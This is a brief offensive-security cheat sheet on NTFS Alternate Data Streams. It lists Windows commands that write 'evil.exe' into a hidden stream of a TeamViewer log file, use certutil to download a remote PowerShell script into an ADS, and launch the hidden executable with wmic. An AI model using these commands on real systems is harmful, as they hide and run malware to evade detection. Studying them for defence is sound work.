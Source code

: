 # Uncategorized

### Alternate Data Streams:

* File on NTFS formatted drive has 2 streams:
  * Data stream: default stream - contains data
  * Resource stream: used for metadata
  * This is useful to hiding file
* Write to ADS
  * `type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"`
* Download directly into ADS
  * `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt`
* Executing from ADS
  * `wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'`
  * NOTE: full path
* There are many other methods to add and execute
  * https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
